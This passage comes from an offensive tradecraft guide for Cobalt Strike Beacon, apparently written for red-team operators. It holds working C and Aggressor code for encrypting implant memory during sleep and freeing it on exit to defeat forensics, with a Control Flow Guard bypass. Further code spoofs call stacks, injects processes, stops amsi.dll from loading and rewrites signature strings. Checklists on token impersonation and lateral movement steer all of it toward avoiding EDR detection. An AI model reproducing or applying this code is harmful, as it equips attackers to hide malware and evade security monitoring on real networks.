typedef struct {
    MEMORY_REGION Pico;
    MEMORY_REGION Dll;             /* Beacon */
} MEMORY_LAYOUT;
```

#### 4.4.2 Mask Loop

```c
/* XOR key patched in from the spec file per build */
char xorkey[128] = {1};

static void apply_mask(char *data, DWORD len) {
    for (DWORD i = 0; i < len; i++) data[i] ^= xorkey[i % 128];
}

void mask_memory(MEMORY_LAYOUT *mem, BOOL mask) {
    for (int r = 0; r < 2; r++) {
        MEMORY_REGION *region = (r == 0) ? &mem->Pico : &mem->Dll;
        for (int s = 0; s < 8; s++) {
            MEMORY_SECTION *sec = &region->Sections[s];
            if (sec->BaseAddress == NULL) break;

            DWORD old;
            KERNEL32$VirtualProtect(sec->BaseAddress, sec->Size, PAGE_READWRITE, &old);
            apply_mask(sec->BaseAddress, sec->Size);
            /* restore original protection on unmask */
            if (!mask) {
                KERNEL32$VirtualProtect(sec->BaseAddress, sec->Size, sec->CurrentProtect, &old);
            }
        }
    }
}

VOID WINAPI _Sleep(DWORD ms) {
    mask_memory(&g_memory, TRUE);
    KERNEL32$Sleep(ms);
    mask_memory(&g_memory, FALSE);
}
```

#### 4.4.3 Loader → PICO Memory Handoff

The loader knows the allocations; the PICO owns the sleep hook. Export a `setup_memory` function on the PICO to receive a `MEMORY_LAYOUT` snapshot.

```c
/* pico.c */
MEMORY_LAYOUT g_memory;
void setup_memory(MEMORY_LAYOUT *layout) {
    if (layout != NULL) g_memory = *layout;   /* copy — loader will be freed */
}

/* loader.c — after loading PICO and Beacon: */
MEMORY_LAYOUT memory = {0};
memory.Pico.BaseAddress = pico_dst;
memory.Pico.Size        = sizeof(PICO);
memory.Pico.Sections[0].BaseAddress = pico_dst->data;
memory.Pico.Sections[0].CurrentProtect = PAGE_READWRITE;
memory.Pico.Sections[1].BaseAddress = pico_dst->code;
memory.Pico.Sections[1].CurrentProtect = PAGE_EXECUTE_READ;
/* ...populate Dll region similarly from fix_section_permissions... */

((SETUP_MEMORY)PicoGetExport(pico_src, pico_dst->code, __tag_setup_memory()))(&memory);
```

#### Methodology

- [ ] Add `memory.h` with `MEMORY_SECTION`/`MEMORY_REGION`/`MEMORY_LAYOUT` structs.
- [ ] Modify `fix_section_permissions` to record each section's base, size, and target protection into a `MEMORY_REGION`: >>
- [ ] Export `setup_memory` in the PICO; call it from the loader immediately after loading Beacon.
- [ ] Register the Sleep hook and mask module in the spec file: >>
- [ ] Route the PICO's *own* `VirtualProtect` calls through the hook (`attach` in `pico.spec`) so the mask/unmask transitions inherit spoofed call stacks.

#### OPSEC

- Each `Sleep` invocation produces a series of `VirtualProtect` events transitioning between `PAGE_EXECUTE_READ` and `PAGE_READWRITE`. Some sensors alert on these transitions. Hardware breakpoints or timer-based unmask implementations reduce the observable transition count.
- XOR does not provide cryptographic strength. When signatures begin to target the XOR pattern, a stream cipher such as RC4 with a per-sleep-cycle key should be substituted.

### 4.5 Memory Cleanup

Beacons injected via the `inject` command terminate through `ExitThread` rather than `ExitProcess`. As a result, the Beacon DLL and PICO remain resident in the host process after the session ends and are recoverable through memory forensics. Hooking `ExitThread` allows the tracked memory regions to be freed before the thread terminates, preventing recovery.

#### 4.5.1 Timer-Scheduled Free

The executing thread cannot free its own code pages directly. Doing so causes the thread to return into freed memory and crash the process. The cleanup routine schedules the `VirtualFree` calls on a thread pool worker thread using `CreateTimerQueueTimer`, populating the timer callback context with the values captured from the calling thread via `RtlCaptureContext`.

```c
void cleanup_memory(MEMORY_LAYOUT *mem);

VOID WINAPI _ExitThread(DWORD dwExitCode) {
    cleanup_memory(&g_memory);          /* schedules VirtualFree on the pool */

    FUNCTION_CALL call = {0};
    call.ptr     = (PVOID)KERNEL32$ExitThread;
    call.argc    = 1;
    call.args[0] = spoof_arg(dwExitCode);
    spoof_call(&call);                   /* real ExitThread through spoofed stack */
}
```

#### 4.5.2 Control Flow Guard

Processes built with Control Flow Guard (CFG) reject indirect calls to addresses that are not registered as valid call targets. Because the cleanup mechanism uses `RtlCaptureContext` to construct a context that transfers control to `VirtualFree`, CFG must be checked and its target-address bitmap patched before the cleanup runs.

```c
BOOL cfg_enabled();
BOOL bypass_cfg(PVOID address);   /* patches the CFG bitmap entry for the target */

if (cfg_enabled()) {
    bypass_cfg((PVOID)KERNEL32$VirtualFree);
}
```

#### Methodology

- [ ] Add an `_ExitThread` hook that calls `cleanup_memory` before delegating to the real `ExitThread`: >>
- [ ] Implement `cleanup_memory` using `CreateTimerQueueTimer` + duplicated `CONTEXT`s that call `VirtualFree` on each tracked region: >>
- [ ] On CFG-enabled processes, patch the target function's CFG bitmap entry first: >>

#### OPSEC

- Beacons launched via the `spawn` command terminate through `ExitProcess`. The operating system reclaims all associated memory automatically, and no additional cleanup is required. This mechanism is only necessary when injecting into an existing process via `inject`.
- Freeing memory removes it from later forensic recovery, but the act of freeing produces a `VirtualFree` event that may be observed by an EDR product. This trade-off must be evaluated against the specific target environment.

## 5. Post-Exploitation Evasion

### 5.1 Introduction

Beacon commands are dispatched through one of three execution models, each of which presents a distinct detection surface.

| Model | Execution | Detection Surface |
|---|---|---|
| **API-only** | Direct Win32 API invocation from Beacon's main thread. Used by simple commands such as `ls` and `ps`. | Unbacked call stack at the API invocation. Addressed by hooks and call stack spoofing (§4). |
| **BOF (inline)** | A Common Object File Format object is loaded by Beacon into its own process and executed inline. Used by commands such as `clipboard`, `elevate`, `getsystem`, `jump`, `reg`, and `remote-exec`. | API calls issued by the BOF itself, and any module loads Beacon performs to satisfy the BOF's imports. |
| **Reflective DLL (fork-and-run or explicit)** | A post-exploitation DLL is injected into a spawned sacrificial process or an existing process. Used by commands such as `execute-assembly`, `mimikatz`, and `powerpick`. | Process creation, remote injection, execution of the post-exploitation loader, and actions performed by the loaded DLL. |

Two Cobalt Strike kits are relevant to customising these execution paths:

| Kit | Purpose |
|---|---|
| **postex-kit** | A Visual Studio solution used to author custom post-exploitation DLLs. Supports both debug and release build configurations. |
| **process-inject-kit** | Allows operator-defined process injection techniques to be implemented as BOFs. Exposes two Aggressor hooks: `PROCESS_INJECT_SPAWN` and `PROCESS_INJECT_EXPLICIT`. |

### 5.2 BOFs

A Beacon Object File is a Common Object File Format object loaded into the running Beacon process. Beacon acts as the linker, resolving function pointers to Win32 APIs and to the internal BOF APIs (`BeaconPrintf`, `BeaconDataParse`, and others) at load time.

#### 5.2.1 Trade-offs

| Advantage | Limitation |
|---|---|
| Executes inline within Beacon; no remote injection is required. | An unhandled exception in the BOF terminates the Beacon process. |
| Small file size, typically in kilobytes. | No standard C library is available; helpers such as `memset` and `strcmp` must be provided by the BOF. |
| Requires no `CreateThread` or `WriteProcessMemory` operations. | Executes on Beacon's main thread and blocks all other tasking until completion. |

#### 5.2.2 BOF Memory Allocation

BOF memory allocation behaviour is controlled through `process-inject.bof_*` options in the Malleable C2 profile.

```
process-inject {
    bof_allocator     "VirtualAlloc";     # or MapViewOfFile, HeapAlloc
    startrwx          "false";             # allocate RW, not RWX
    userwx            "false";             # transition to RX, not RWX
    bof_reuse_memory  "true";              # zero + reuse instead of free+realloc
}
```

#### 5.2.3 Hooking LoadLibrary for BOFs

Beacon issues `LoadLibraryA` to satisfy a BOF's imports; for example, `wldap32.dll` is loaded when running the `ldapsearch` BOF. Because these loads originate from unbacked memory, hooking `LoadLibraryA` within the PICO routes them through the spoofed call stack.

```
addhook "KERNEL32$LoadLibraryA" "_LoadLibraryA"
```

When a BOF itself invokes sensitive APIs, `GetProcAddress` should also be hooked so that the `__resolve_hook` mechanism extends into the BOF's resolution path.

```
addhook "KERNEL32$GetProcAddress" "_GetProcAddress"
addhook "WLDAP32$ldap_bind_s"     "_ldap_bind_s"
```

#### Methodology

- [ ] Configure the profile to avoid RWX BOF memory: >>
- [ ] Hook the allocator you configured so BOF allocations inherit spoofed call stacks: >>
- [ ] Hook `LoadLibraryA` so Beacon's satisfaction of BOF imports also gets spoofed.
- [ ] For BOFs that call noisy 3rd-party APIs (LDAP, COM, WMI), add per-API hooks and extend `_GetProcAddress` to cover them: >>

#### OPSEC

- BOFs present a smaller detection surface than fork-and-run execution because they do not require process creation or remote injection. They should be preferred whenever a task can be implemented as a BOF.
- A long-running BOF blocks all Beacon tasking for the duration of its execution. Tasks that exceed approximately 30 seconds should be implemented as a post-exploitation DLL.

### 5.3 Fork & Run

Fork-and-run is the execution model with the largest detection surface. The `spawn` variants create a sacrificial process into which the post-exploitation capability is injected. The `explicit` variants inject into a specified existing process.

#### 5.3.1 Detection Chain

| Step | Observable Signal |
|---|---|
| Sacrificial process creation | Anomalous parent-child relationship or unusual command line arguments. |
| Remote injection using `VirtualAllocEx`, `WriteProcessMemory`, and `CreateRemoteThread` | Cross-process events that are routinely monitored by EDR products. |
| Execution of the post-exploitation reflective loader | Additional loader shellcode that must be concealed. |
| Post-exploitation DLL actions | The API calls, module loads, and network activity performed by the DLL itself. |
| Termination via `ExitProcess` or `ExitThread` | Process or thread teardown events. |

#### 5.3.2 Kit Limitations

- Beacon's `CreateProcessA` and `CreateProcessAsUserA` calls are not exposed through BeaconGate, so no native mechanism exists for applying call stack spoofing to process creation.
- The BOF API surface is asymmetric. `BeaconResumeThread` is available but `BeaconSuspendThread` is not; `BeaconUnmapViewOfFile` is available but `BeaconMapViewOfFile` is not. Custom injection BOFs must reimplement common functionality.
- Sleepmask and BeaconGate apply only to Beacon and not to its post-exploitation DLLs. Evasion tradecraft required within the DLL must be implemented directly in the DLL source.

Crystal Palace addresses these limitations. The same PICO used to instrument Beacon can be paired with post-exploitation DLLs via a Crystal Palace post-exploitation loader.

### 5.4 Process Inject Kit

Beacon dispatches to one of two Aggressor hooks when injection of the current post-exploitation DLL is required:

| Hook | Task |
|---|---|
| `PROCESS_INJECT_SPAWN` | Spawn a sacrificial process and inject the post-exploitation capability into it. The first argument is the `ignoreToken` flag passed to `BeaconSpawnTemporaryProcess`. The second argument is the post-exploitation DLL bytes. |
| `PROCESS_INJECT_EXPLICIT` | Inject the post-exploitation capability into a specified target process. The first argument is the target process ID. The second argument is the post-exploitation DLL bytes. |

#### 5.4.1 Spawn BOF Skeleton

```c
#include <windows.h>
#include "beacon.h"

BOOL is_x64() {
#if defined _M_X64
    return TRUE;
#elif defined _M_IX86
    return FALSE;
#endif
}

void go(char *args, int alen, BOOL x86) {
    datap parser;
    short ignoreToken;
    char *dllPtr;
    int   dllLen;
    STARTUPINFOA        si = {0};
    PROCESS_INFORMATION pi = {0};

    BeaconDataParse(&parser, args, alen);
    ignoreToken = BeaconDataShort(&parser);
    dllPtr      = BeaconDataExtract(&parser, &dllLen);

    /* spawn sacrificial process however you want — via CreateProcessW or BeaconSpawnTemporaryProcess */
    if (!BeaconSpawnTemporaryProcess(x86, ignoreToken, &si, &pi)) return;

    /* remote-inject dllPtr into pi.hProcess via VirtualAllocEx + WriteProcessMemory + CreateRemoteThread */
    /* ... your injection technique here ... */

    /* close handles the BOF owns; postex DLL calls ExitThread/ExitProcess itself */
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
}
```

#### 5.4.2 Fallback APIs

When a custom injection technique cannot be applied — for example, when performing a cross-architecture injection or when the target process is incompatible — Beacon exposes several fallback APIs implemented internally.

| API | Use |
|---|---|
| `BeaconSpawnTemporaryProcess` | Spawn a sacrificial process using the current `spawnto`. |
| `BeaconInjectProcess` | Inject into a specific PID using Malleable C2's `process-inject` technique. |
| `BeaconInjectTemporaryProcess` | Inject into a freshly-spawned process using Malleable C2. |

#### Methodology

- [ ] Copy the process-inject kit template and add your custom technique in the `go()` handler. Warn about cross-arch mismatches early: >>
- [ ] Parse args from Beacon's `datap` parser: >>
- [ ] Any API used here that the PICO hooks (VirtualAlloc, VirtualProtect, CreateRemoteThread…) inherits spoofed stacks automatically. Prefer those.
- [ ] Close handles the BOF owns before returning — the postex DLL manages its own lifecycle (`ExitThread`/`ExitProcess`).

### 5.5 Postex Loader

The default post-exploitation reflective loader can be replaced with a Crystal Palace loader that shares approximately 99% of its implementation with the Beacon loader. The custom loader applies to `execute-assembly`, `mimikatz`, `powerpick`, and operator-authored post-exploitation DLLs.

#### 5.5.1 Loader Entry Point

A post-exploitation loader's entry point receives a pointer to a buffer containing user-supplied arguments that must be forwarded to the post-exploitation DLL. The DLL entry is invoked twice.

```c
void go(void *loader_arguments) {
    /* ... same setup as Beacon loader: unmask, allocate, load DLL, resolve imports, fix protections ... */

    /* first: DLL_PROCESS_ATTACH */
    entry_point((HINSTANCE)dll_dst, DLL_PROCESS_ATTACH, NULL);

    /* second: 0x4 with loader base + user args (so postex can free the loader if post-ex.cleanup) */
    entry_point((HINSTANCE)(char *)go, 0x4, loader_arguments);
}
```

#### 5.5.2 Aggressor Hook

```
set POSTEX_RDLL_GENERATE {
    local('$postex $arch $spec_path $spec $final');
    $postex = $2; $arch = $3;

    if ($arch eq "x86") {
        warn("Crystal Kit is x64 only");
        return $null;
    }

    $spec_path = getFileProper(script_resource("postex"), "loader.spec");
    $spec  = [LinkSpec Parse: $spec_path];
    $final = [$spec run: $postex, [new HashMap]];

    return $final;
}
```

Verify:

```
beacon> powerpick $pid
[+] host called home, sent: NNNNNN bytes
[+] received output:
    12345
```

#### Methodology

- [ ] Fork the Beacon loader into `postex/loader.c`. Change the entry signature to `void go(void *loader_arguments)`.
- [ ] After section fix-ups, call the postex DLL entry twice — `DLL_PROCESS_ATTACH`, then `0x4` with loader base + args: >>
- [ ] Register the loader via `POSTEX_RDLL_GENERATE` (same shape as `BEACON_RDLL_GENERATE`).
- [ ] Hook `ExitThread` in the postex PICO too, so the postex DLL cleans itself up on completion (same tactic as §4.5).

### 5.6 Postex Image Loads

The `powerpick`, `psinject`, and `execute-assembly` commands all load the .NET Common Language Runtime (CLR), which in turn loads `mscoree.dll`, then `mscoreei.dll`, then `clr.dll`. Because the loader that issues the initial `LoadLibraryW` executes from unbacked memory, the resulting CLR image loads inherit an unbacked call stack. EDR products commonly alert on `clr.dll` being loaded from an unexpected origin.

#### 5.6.1 Hooking LoadLibraryExW in the Postex Loader

The custom loader only intercepts the initial `LoadLibraryW("mscoree.dll")`. The subsequent loads of `mscoreei.dll` and `clr.dll` are issued from within `mscoree.dll` and `mscoreei.dll` respectively. To intercept them as well, the loader hooks `LoadLibraryExW` and, when a target CLR module is returned, installs an IAT hook on that module's `LoadLibraryExW` import before returning the handle to the caller.

```c
HMODULE WINAPI _LoadLibraryExW(LPCWSTR lpLibFileName, HANDLE hFile, DWORD dwFlags) {
    FUNCTION_CALL call = {0};
    call.ptr  = KERNEL32$LoadLibraryExW;
    call.argc = 3;
    call.args[0] = spoof_arg(lpLibFileName);
    call.args[1] = spoof_arg(hFile);
    call.args[2] = spoof_arg(dwFlags);

    HMODULE mod = (HMODULE)spoof_call(&call);
    if (mod == NULL) return NULL;

    LPCWSTR name = wcsrchr(lpLibFileName, L'\\');
    name = (name != NULL) ? name + 1 : lpLibFileName;

    if (MSVCRT$_wcsicmp(name, L"mscoree.dll")   == 0 ||
        MSVCRT$_wcsicmp(name, L"mscoreei.dll")  == 0 ||
        MSVCRT$_wcsicmp(name, L"clr.dll")       == 0) {
        iat_hook(mod, "KERNEL32.dll", "LoadLibraryExW", (PVOID)_LoadLibraryExW);
    }
    return mod;
}
```

The `mscoree.dll` request arrives as a bare filename, while `mscoreei.dll` and `clr.dll` are requested via absolute paths. The comparison must therefore be performed against the trailing filename component obtained through `wcsrchr`.

#### Methodology

- [ ] In the postex PICO, add an `_LoadLibraryExW` hook that proxies via `spoof_call`.
- [ ] After the real load returns, extract the filename tail and if it matches a CLR module, IAT-hook `LoadLibraryExW` in that module.
- [ ] Register the hook in the postex spec file: >>

### 5.7 AMSI

Malleable C2 provides the `post-ex.amsi_disable` directive, which patches `AmsiScanBuffer` in memory to return a benign result. This directive is only applied by the default post-exploitation loader. When a custom loader is in use, equivalent functionality must be implemented directly.

#### 5.7.1 Refuse-to-Load Approach

Because the loader already installs IAT hooks on `LoadLibraryExW` inside `clr.dll` for image-load stealth (§5.6), the same hook can be extended to return `NULL` when `amsi.dll` is requested. AMSI is never loaded into the process, so no scan is performed.

```c
HMODULE WINAPI _LoadLibraryExW(LPCWSTR lpLibFileName, HANDLE hFile, DWORD dwFlags) {
    LPCWSTR name = wcsrchr(lpLibFileName, L'\\');
    name = (name != NULL) ? name + 1 : lpLibFileName;

    if (MSVCRT$_wcsicmp(name, L"amsi.dll") == 0) {
        return NULL;                        /* AMSI never loads */
    }

    /* ...existing spoofed load + IAT hook install... */
}
```

#### 5.7.2 Alternative Approaches

| Technique | Trade-off |
|---|---|
| Refuse to load `amsi.dll` | Requires no memory patching. AMSI ETW telemetry may record the failed load. |
| Patch `AmsiScanBuffer` in memory | Well-established technique. Widely signatured by EDR products. |
| Hardware breakpoints on `AmsiScanBuffer` | Requires no memory modification. Interferes with any debugger attached to the process. |
| Patch the `amsiContext` corrupted flag | Subtle modification. Retains the same memory-modification detection surface as the `AmsiScanBuffer` patch. |

#### Methodology

- [ ] Extend `_LoadLibraryExW` to short-circuit `amsi.dll`: >>
- [ ] Verify with `powerpick` running a known-flagged payload: >>
- [ ] Rotate bypass techniques between engagements. Modern EDR products maintain signatures for specific bypass shapes.

### 5.8 Postex Kit

The postex-kit is used to author custom post-exploitation DLLs. It is best suited for tasks that are long-running or whose logic is too complex to implement as a BOF. The kit is packaged as a Visual Studio solution containing a debug executable target for local development and a release DLL target for deployment. The full C runtime is available within the DLL's `PostexMain` entry point.

#### 5.8.1 Execution Paths

| Method | Origin | Argument Passing |
|---|---|---|
| `execute-dll` | Interactive Beacon command | Single string argument, passed verbatim. |
| `beacon_execute_postex_job` | Aggressor API | Structured. Arguments are packed with `bof_pack` in Aggressor and unpacked with `BeaconDataParse` in the DLL. |

#### 5.8.2 Simple PostexMain

```c
void PostexMain(PPOSTEX_DATA postexData) {
    RETURN_ON_NULL(postexData);
    BeaconPrintf(CALLBACK_OUTPUT, "You said: %s", postexData->UserArgumentInfo.Buffer);
}
```

#### 5.8.3 Multi-Arg via bof_pack

```c
void PostexMain(PPOSTEX_DATA postexData) {
    RETURN_ON_NULL(postexData);
    datap parser;
    char *name;
    int   age;

    BeaconDataParse(&parser, postexData->UserArgumentInfo.Buffer,
                              postexData->UserArgumentInfo.Size);
    name = BeaconDataExtract(&parser, NULL);
    age  = BeaconDataInt(&parser);

    BeaconPrintf(CALLBACK_OUTPUT, "Your name is %s and you are %d years old", name, age);
}
```

```
alias postex-demo {
    local('$bid $name $age $dll_path $dll $args');
    $bid  = $1; $name = $2; $age = int($3);

    $dll = readb(openf($dll_path), -1);
    $args = bof_pack($bid, "zi", $name, $age);
    beacon_execute_postex_job($bid, $null, $dll, $args, $callback);
}
```

#### 5.8.4 Callback Types

| Callback Type | Meaning |
|---|---|
| `job_registered` | Beacon has acknowledged the job. |
| `output` | Data produced by `BeaconPrintf` with a non-error output type. |
| `error` | Data produced by `BeaconPrintf` with `CALLBACK_ERROR`. |
| `job_completed` | `PostexMain` has returned or the job has been cancelled. |

```
$callback = lambda({
    local('$bid $result %info $type $jid');
    this('$jid');
    ($bid, $result, %info) = @_;
    $type = %info['type'];
    $jid  = %info['jid'];

    if      ($type eq 'job_registered') { }
    else if ($type eq 'output')         { bjoblog($bid, $jid, $result); }
    else if ($type eq 'error')          { bjoberror($bid, $jid, $result); }
    else if ($type eq 'job_completed')  { $jid = $null; }
});
```

#### 5.8.5 Bidirectional Communication

The post-exploitation named pipe supports bidirectional traffic. Aggressor sends data to the DLL via `bjob_send_data($bid, $jid, $data)`. The DLL polls for incoming data using `BeaconInputAvailable` and `BeaconInputRead`.

```c
BOOL ClientConnected() {
    if (!PeekNamedPipe(gPipeHandle, NULL, 0, NULL, NULL, 0)) {
        if (GetLastError() == ERROR_BROKEN_PIPE) return FALSE;
    }
    return TRUE;
}

while (TRUE) {
    DWORD bytesAvailable = BeaconInputAvailable();
    if (bytesAvailable > 0) {
        char *pipeData = new char[bytesAvailable]();
        BeaconInputRead(pipeData, bytesAvailable);
        /* handle inbound data */
        delete[] pipeData;
    }

    Sleep(60 * 1000);
    if (!ClientConnected()) break;   /* Beacon jobkill closes pipe */
}
```

#### Methodology

- [ ] Fork the postex-kit VS solution. Add your task in `PostexMain`. Debug in release-as-exe mode first.
- [ ] For multi-arg tasks, pack in Aggressor with `bof_pack` and unpack with `BeaconDataParse`: >>
- [ ] For long-running postex DLLs, loop on `BeaconInputAvailable` + `ClientConnected`; break on broken pipe so `jobkill` works cleanly: >>
- [ ] Register your callback to route output to the console or into Cobalt Strike models (credentials, targets): >>

### 5.9 Quickfire OPSEC

#### 5.9.1 spawnto Selection and Arguments

EDR products generate alerts when `clr.dll` or `System.Management.Automation.dll` are loaded into processes that would not normally load them. The `spawnto` process should be chosen from those that legitimately load these modules.

| Process | Justification |
|---|---|
| `MSBuild.exe` | Legitimately hosts the .NET runtime. |
| `ngen.exe` | Native Image Generator; loads the CLR as part of its normal operation. |
| `ngentask.exe` | Ngen background service task. |
| `msiexec.exe` | Widely deployed. Loads the .NET runtime when a package requires it. |

Spawning any of these processes without arguments is itself an indicator. A plausible command line should be supplied:

```
# No arguments — insufficient
spawnto x64 %windir%\sysnative\msiexec.exe

# Plausible command line
spawnto x64 %windir%\sysnative\msiexec.exe /i foo.msi /quiet
```

#### 5.9.2 Thread Start Address Spoofing

Threads created with a `StartAddress` in freshly allocated memory are readily identifiable by EDR products. The recommended approach is to create the thread in a suspended state with the start address set to a legitimate function inside a loaded DLL, then rewrite the thread's instruction pointer to reference the shellcode before resuming.

```
process-inject {
    set startrwx "false";
    set userwx   "false";

    execute {
        ObfSetThreadContext "ntdll.dll!RtlUserThreadStart+0x2c";
        CreateRemoteThread  "ntdll.dll!TppWorkerThread+0x37e";
    }
}
```

#### 5.9.3 Postex DLL String Signatures

The default post-exploitation DLLs contain hardcoded format strings that are widely used as signature material:

```
"Failed to invoke GetOutput w/hr 0x%08lx"
"Failed to get default AppDomain w/hr 0x%08lx"
"ICLRMetaHost::GetRuntime (v4.0.30319) failed w/hr 0x%08lx"
"RuntimeClrHost::GetCurrentAppDomain..."
```

These strings should be rewritten within `POSTEX_RDLL_GENERATE` using the same `strrep_pad` pattern applied to Beacon:

```
set POSTEX_RDLL_GENERATE {
    local('$postex $arch');
    $postex = $2; $arch = $3;

    $postex = strrep_pad($postex, "w/hr", "err");
    $postex = strrep_pad($postex, "[-]",  "[!]");
    $postex = strrep_pad($postex, "ReflectiveLoader",       "legitLoader");
    $postex = strrep_pad($postex, "invokeassembly.x64.dll", "revokeassembly.x64.dll");
    $postex = strrep_pad($postex, "powershell.x64.dll",     "weakshell.x64.dll");

    return runSpec($postex);
}
```

#### 5.9.4 In-Memory Tool Signatures

Tools executed in memory such as PowerView, SharpUp, and Rubeus contain hardcoded strings and comments that are commonly used as signature material. These should be removed or replaced in the source before compilation. .NET assemblies also contain an auto-generated **typelib GUID** that persists across builds unless explicitly changed. Regenerating this value defeats tool-identification rules that key on the GUID.

```csharp
// AssemblyInfo.cs
// The following GUID is for the ID of the typelib if this project is exposed to COM
[assembly: Guid("658c8b7f-3664-4a95-9572-a3e5871dfc06")]  // <-- randomize per build
```

#### Methodology

- [ ] Set `spawnto` to a CLR-loading process with plausible arguments: >>
- [ ] Disable RWX in `process-inject` and use suspended-thread + context swap for thread start-address hiding: >>
- [ ] Add postex-specific string rewrites in `POSTEX_RDLL_GENERATE` mirroring the Beacon `strrep_pad` approach.
- [ ] Regenerate typelib GUIDs and remove hardcoded comments in .NET postex tools before each engagement: >>

## 6. User Impersonation & Lateral Movement

### 6.1 User Impersonation

User impersonation lets Beacon act in another user's security context, either by supplying fresh credentials or by duplicating an existing access token. Against modern EDR some of the techniques still work well and others get caught almost immediately.

#### 6.1.1 Technique Viability

| Technique | Underlying API | EDR Viability |
|---|---|---|
| `make_token` | `LogonUserA` with `LOGON32_LOGON_NEW_CREDENTIALS` | Viable if Beacon is hosted in a plausible process. The logon event records the parent process. |
| Rubeus `createnetonly` | `CreateProcessWithLogonW` with `LOGON_NETCREDENTIALS_ONLY` | Preferable to `make_token`. The `/process` argument allows control over the spawned process. |
| `steal_token` | `OpenProcess`, `OpenProcessToken`, `DuplicateToken`, `ImpersonateLoggedOnUser` | Viable when the API chain is routed through call stack spoofing or indirect syscalls. |
| Rubeus `asktgt`, `asktgs`, S4U (Service-for-User) | Raw Kerberos over port 88 | Not viable against any EDR that inspects network traffic. On a domain-joined host, only `lsass.exe` normally generates outbound Kerberos. |
| Rubeus `asktgs` with `/luid` | LSA (Local Security Authority) authentication package RPC | Viable. Traffic originates from LSASS as expected. |

#### Methodology

- [ ] When using `make_token`, migrate Beacon into a process located in `C:\Windows\System32` or `Program Files` first. Logon events from atypical parent paths generate alerts.
- [ ] Prefer `createnetonly` with an explicit `/process` argument referencing `runas.exe`. This process legitimately generates `LOGON32_LOGON_NEW_CREDENTIALS` events as part of its normal operation: >>
- [ ] When using `steal_token`, ensure the underlying `OpenProcess` and token duplication APIs are routed through the PICO's hooks: >>
- [ ] Use Rubeus `asktgs /luid` to request service tickets through the LSA authentication package instead of issuing raw Kerberos traffic on port 88: >>

#### OPSEC

- Any outbound Kerberos traffic originating from a process other than `lsass.exe` is a strong indicator of malicious activity. LSA-routed APIs (`asktgs /luid`) should be used whenever a TGT is cached in a session that can be accessed.
- Named-pipe impersonation triggers `PsSetCreateProcessNotifyRoutineEx` callbacks that inspect the command line of the spawned process. Mimikatz's `sekurlsa::pth` command spawns `cmd.exe /c echo <random> > \\.\pipe\<name>`, a pattern that is widely monitored. The process callback must be disabled (§7) before executing this command, or an alternative technique must be used.

### 6.2 Lateral Movement

Cobalt Strike ships several lateral movement primitives: `remote-exec wmi`, `psexec`, `jump winrm64`, `jump ssh`, and others. The mechanics are all well documented. What matters on an engagement with EDR in path is what the sensor actually sees when each one fires, and how much of that noise can be dampened.

#### 6.2.1 WMI (remote-exec wmi)

The `remote-exec wmi` command is implemented as a BOF that calls `combase.dll!CoCreateInstance` to instantiate the WMI COM object on the remote host. This call triggers an internal `LoadLibraryExW` for `wbemprox.dll`. Because the BOF executes from unbacked memory, the resulting load event's call stack contains unbacked frames.

```
# Typical unbacked call stack after CoCreateInstance:
KernelBase.dll!LoadLibraryExW+0xe6
combase.dll!CoReleaseServerProcess+0xee9
combase.dll!CoReleaseServerProcess+0x9b0
...
<unbacked>      <-- BOF origin
```

The mitigation is to hook `OLE32$CoCreateInstance` within the PICO and proxy the call through `spoof_call`:

```c
HRESULT WINAPI _CoCreateInstance(REFCLSID rclsid, LPUNKNOWN pUnkOuter,
                                  DWORD dwClsContext, REFIID riid, LPVOID *ppv) {
    FUNCTION_CALL call = {0};
    call.ptr  = (PVOID)OLE32$CoCreateInstance;
    call.argc = 5;
    call.args[0] = spoof_arg(rclsid);
    call.args[1] = spoof_arg(pUnkOuter);
    call.args[2] = spoof_arg(dwClsContext);
    call.args[3] = spoof_arg(riid);
    call.args[4] = spoof_arg(ppv);
    return (HRESULT)spoof_call(&call);
}
```

```
addhook "OLE32$CoCreateInstance" "_CoCreateInstance"
```

#### 6.2.2 Payload Placement

Uploading a binary to `C:\ProgramData\Temp\smb.exe` and executing it via WMI is a well-known indicator: a recently-written binary executed through a network logon. Three mitigations reduce the detection surface:

- **Standard directory placement.** Upload the binary to a directory such as `System32` or `Program Files` where binaries are expected to reside.
- **Delayed execution.** Wait between the upload and the execution so that the file is no longer classified as recent. The specific threshold varies by product.
- **LOLBAS (Living Off the Land Binaries and Scripts) wrapping.** Invoke the payload through a trusted signed binary: `remote-exec wmi lon-dc-1 cmd /c C:\Windows\System32\smb.exe`.

#### 6.2.3 PsExec

Cobalt Strike's `psexec` command uses a Windows service payload. This is the only lateral movement technique in the framework that performs remote injection into the service process. Without loading the Artifact Kit and configuring a suitable `spawnto`, the service payload reintroduces the fork-and-run tradecraft that §5 was concerned with avoiding.

#### Methodology

- [ ] Hook `CoCreateInstance` and, when WMI is used frequently, any additional COM APIs invoked by the BOF chain: >>
- [ ] Place payloads in standard system directories before invoking them via WMI: >>
- [ ] When using `psexec`, load the Artifact Kit and configure the service payload's `spawnto` to a plausible process: >>

#### OPSEC

- The combination of a network logon, a recently written binary, and a hash not previously observed on the destination host is a strong composite indicator. At least two of these three attributes should be broken before proceeding.
- The `jump winrm64`, `jump ssh`, and `remote-exec winrm` commands execute inline and do not produce the service payload artefacts associated with `psexec`. They should be preferred when the target listens for either protocol.

### 6.3 BEACON_RDLL_GENERATE_LOCAL

The `BEACON_RDLL_GENERATE` Aggressor hook fires when a payload is generated through the Cobalt Strike client. The `BEACON_RDLL_GENERATE_LOCAL` hook fires when Beacon itself generates a payload in response to commands such as `spawn` and `spawnas`. If only the former is registered, Beacons produced through `spawn`-family commands are generated with the default reflective loader and none of the operator's evasion tradecraft.

#### 6.3.1 Extra Hook Arguments

| Arg | Contents |
|---|---|
| `$1` | Beacon payload filename. |
| `$2` | Raw Beacon DLL bytes. |
| `$3` | Payload architecture (`x86` / `x64`). |
| `$5` | Pointer to `GetModuleHandleA` resolved by the parent Beacon. |
| `$6` | Pointer to `GetProcAddress` resolved by the parent Beacon. |

The `$5` and `$6` pointers are intended to be patched into the reflective loader so that it can bypass the Export Address Table walk. When Crystal Palace's API hooking is in use, these pointers refer to the hooked versions of the functions within the parent's PICO. Patching them into a child loader results in a crash. The pointers should either be ignored or replaced with fresh values resolved inside the child loader.

#### 6.3.2 Minimal Registration

```
set BEACON_RDLL_GENERATE_LOCAL {
    local('$beacon $arch $spec_path $spec $final');
    $beacon = $2; $arch = $3;
    # Args 5 and 6 ignored intentionally.

    if ($arch eq "x86") {
        warn("Crystal Kit is x64 only");
        return $null;
    }

    $spec_path = getFileProper(script_resource(), "loader.spec");
